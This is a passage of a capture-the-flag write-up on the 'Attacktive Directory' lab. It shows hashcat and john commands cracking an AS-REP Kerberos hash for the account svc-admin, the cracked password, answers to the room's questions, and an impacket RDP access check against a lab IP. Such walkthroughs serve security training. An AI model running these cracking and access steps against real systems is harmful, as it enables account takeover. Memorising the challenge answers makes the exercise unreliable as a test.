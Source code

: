 * got the TGT hash for user `svc-admin`
* thus we can now crack this using hashcat or john
* for this copy past hash into a text file.

```bash
hashcat -a 0 -m 18200 hash.txt password.txt --force
```

![](2025-05-31-attacktive-directory-3.png)

OR

```
┌──(kali㉿kali)-[~/Desktop]
└─$ john hash --wordlist=/home/kali/Desktop/Attacktive_Directory/passwordlist.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)     
1g 0:00:00:00 DONE (2023-06-03 03:20) 100.0g/s 921600p/s 921600c/s 921600C/s horoscope..scully
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

* got the password for `svc-admin` to be `management2005`.

#### **Questions**

*   We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

    `svc-admin`
*   Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

    `Kerberos 5 AS-REP etype 23`

![](2025-05-31-attacktive-directory-4.png)

*   What mode is the hash?

    `18200`
*   Now crack the hash with the modified password list provided, what is the user accounts password?

    `management2005`

## Enumration (Back to the Basics)

* we tried to get a shell on target from svc-admin account but found no luck with psexec or smbexec or evilwinrm.
* but lastly found that we can RDP in to machine just like that with this creds.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-rdp_check svc-admin:management2005@10.10.134.250 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Access Granted
```

